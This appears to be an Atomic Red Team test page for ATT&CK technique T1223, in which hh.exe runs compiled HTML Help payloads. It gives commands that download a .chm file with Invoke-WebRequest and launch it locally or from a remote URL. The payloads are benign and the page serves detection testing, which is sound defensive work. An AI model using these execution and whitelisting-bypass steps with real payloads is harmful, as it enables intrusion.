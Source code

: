 # T1223 - Compiled HTML File

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1223)

<blockquote>Compiled HTML files (.chm) are commonly distributed as part of the Microsoft HTML Help system. CHM files are compressed compilations of various content such as HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX. (Citation: Microsoft HTML Help May 2018) CHM content is displayed using underlying components of the Internet Explorer browser (Citation: Microsoft HTML Help ActiveX) loaded by the HTML Help executable program (hh.exe). (Citation: Microsoft HTML Help Executable Program)

Adversaries may abuse this technology to conceal malicious code. A custom CHM file containing embedded payloads could be
delivered to a victim then triggered by [User Execution](https://attack.mitre.org/techniques/T1204). CHM execution may
also bypass application whitelisting on older and/or unpatched systems that do not account for execution of binaries
through hh.exe. (Citation: MsitPros CHM Aug 2017) (Citation: Microsoft CVE-2017-8625 Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Compiled HTML Help Local Payload](#atomic-test-1---compiled-html-help-local-payload)

- [Atomic Test #2 - Compiled HTML Help Remote Payload](#atomic-test-2---compiled-html-help-remote-payload)

<br/>

## Atomic Test #1 - Compiled HTML Help Local Payload

Uses hh.exe to execute a local compiled HTML Help payload.
Upon execution calc.exe will open

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_chm_file | Local .chm payload | path | PathToAtomicsFolder&#92;T1223&#92;src&#92;T1223.chm|

#### Attack Commands: Run with `command_prompt`!

```cmd
hh.exe #{local_chm_file}
```

#### Dependencies:  Run with `powershell`!

##### Description: The payload must exist on disk at specified location (#{local_chm_file})

##### Check Prereq Commands:

```powershell
if (Test-Path #{local_chm_file}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{local_chm_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1223/src/T1223.chm" -OutFile "#{local_chm_file}"
```

<br/>
<br/>

## Atomic Test #2 - Compiled HTML Help Remote Payload

Uses hh.exe to execute a remote compiled HTML Help payload.
Upon execution displays an error saying the file cannot be open

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_chm_file | Remote .chm payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1223/src/T1223.chm|

#### Attack Commands: Run with `command_prompt`!

```cmd
hh.exe #{remote_chm_file}
```

<br/>
